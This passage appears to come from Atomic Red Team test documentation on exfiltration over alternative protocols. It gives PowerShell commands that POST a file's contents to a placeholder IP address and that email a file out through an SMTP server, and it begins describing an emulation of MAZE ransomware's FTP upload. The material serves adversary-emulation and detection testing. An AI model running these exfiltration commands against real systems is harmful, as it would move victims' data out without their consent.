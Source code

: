 
```powershell
$content = Get-Content #{input_file}
Invoke-WebRequest -Uri #{ip_address} -Method POST -Body $content
```






<br/>
<br/>

## Atomic Test #5 - Exfiltration Over Alternative Protocol - SMTP
Exfiltration of specified file over SMTP.
Upon successful execution, powershell will send an email with attached file to exfiltrate to a remote address. Results will be via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** ec3a835e-adca-4c7c-88d2-853b69c11bb9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path to file to exfiltrate | path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| sender | The email address of the sender | string | test@corp.com|
| receiver | The email address of the receiver | string | test@corp.com|
| smtp_server | SMTP server to use for email transportation | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
Send-MailMessage -From #{sender} -To #{receiver} -Subject "T1048.003 Atomic Test" -Attachments #{input_file} -SmtpServer #{smtp_server}
```






<br/>
<br/>

## Atomic Test #6 - MAZE FTP Upload
This test simulates MAZE's ransomware's ability to exfiltrate data via FTP.
Upon successful execution, all 7z files within the %windir%\temp directory will be uploaded to a remote FTP server. 
Reference: https://www.mandiant.com/resources/tactics-techniques-procedures-associated-with-maze-ransomware-incidents
